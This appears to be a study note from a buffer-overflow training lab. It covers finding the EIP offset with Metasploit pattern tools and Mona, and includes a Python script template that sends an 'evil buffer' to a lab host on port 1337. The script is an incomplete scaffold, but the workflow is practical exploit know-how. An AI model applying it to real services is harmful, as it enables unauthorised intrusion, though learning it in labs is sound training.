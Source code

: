 # 2. Finding EIP position
## 2.1 Find where EIP is :
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <pattern_length>

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <pattern_length> -q <eip_value>
```

![[Finding offset.png]]

## 2.2 Other way to get the offset (Using Mona module)
```bash
!mona findmsp -distance 2000
```

![[Using mona to find EIP position.png]]

## 2.3 Example of python3 code
```python
#!/usr/bin/python3

import socket

ip = "10.10.2.75"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
# Insert what was generated by pattern_create here :
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```